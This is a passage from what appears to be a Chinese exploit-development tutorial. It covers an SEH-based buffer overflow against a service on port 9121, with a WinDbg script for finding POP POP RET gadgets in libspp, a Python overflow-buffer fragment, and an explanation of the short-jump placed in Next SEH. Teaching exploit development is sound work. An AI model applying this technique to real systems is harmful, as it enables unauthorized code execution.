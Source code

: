 ```text
00000000 C3
```

保存为find_ppr.wds
```C++
.block
{  
	.for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
	{
		.for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
		{  
			s-[1]b 10000000 10226000 $t0 $t1 c3
		}
	}
}
```
并在windbg中执行
```
0:007> $><C:\Users\offsec\Desktop\find_ppr.wds
0x1015a2f0  
0x100087dd  
0x10008808

验证：
0:009> u 1015a2f0 L3 
libspp!pcre_exec+0x16460:  
1015a2f0 58 pop eax
1015a2f1 5b pop ebx
1015a2f2 c3 ret
```
即此时已经找到PPR地址
```python
try:
  server = sys.argv[1] port = 9121  
  size = 1000
	
  inputBuffer = b"\x41" * 128
  inputBuffer+= pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
  inputBuffer+= b"\x43" * (size - len(inputBuffer))
```


- **step3.  定位Next SEH值 , 执行JMP：执行跳转命令，6字节大小**
```text
[A*128][Next SEH][0x1015a2f0][Shellcode]
其中
Next SEH：放置Shellcode地址
SEH handle：放置“POP POP RET”操作函数的地址
```

第二个部分是Jmp指令，它位于第一个异常处理器结构的Next SEH成员位置，为什么需要它？因为POP+POP+RET执行后返回到SEH起始地址，此时，如果没有跳转指令，顺序执行，POP+POP+RET还会执行，从而出错，因此，JMP指令的作用就是跳过POP+POP+RET。因此，我们需要跳过4字节，短跳转的操作码为EB，向后跳转四字节为\xeb\x04。由于有4字节的空间，因此再填充两个NOP指令。
